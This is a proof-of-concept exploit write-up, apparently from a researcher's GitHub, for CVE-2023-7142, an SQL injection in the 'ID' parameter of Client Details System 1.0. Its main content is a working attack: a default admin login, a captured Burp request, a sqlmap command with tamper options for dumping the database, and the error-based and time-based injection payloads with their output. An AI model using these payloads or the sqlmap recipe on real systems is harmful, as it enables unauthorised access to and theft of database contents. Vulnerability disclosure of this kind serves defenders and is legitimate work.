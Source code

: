 # CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Exploit Title:** CVE-2023-7142_Client_Details_System-SQL_Injection_6
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7142

## References: 
+ **CVE-2023-7142:** https://vuldb.com/?id.249145
+ https://www.cve.org/CVERecord?id=CVE-2023-7142
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7142
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7142

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'ID' in "/clientdetails/admin/clientview.php?ID=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Client Details: "http://localhost/clientdetails/admin/clientview.php"
+ Then select the any client.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/clientview.php?ID=2 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'ID' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p ID --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: ID (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: ID=2' AND EXTRACTVALUE(9984,CONCAT(0x5c,0x7170706b71,(SELECT (ELT(9984=9984,1))),0x71766b6b71))-- TRvU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=2' AND (SELECT 4084 FROM (SELECT(SLEEP(5)))ERbG)-- puQq
---
[18:03:35] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:03:35] [INFO] fetching current database
[18:03:35] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![6](https://github.com/h4md153v63n/CVEs/assets/5091265/e4e81845-617f-4d1b-9c1d-b4bae4f5fc73)
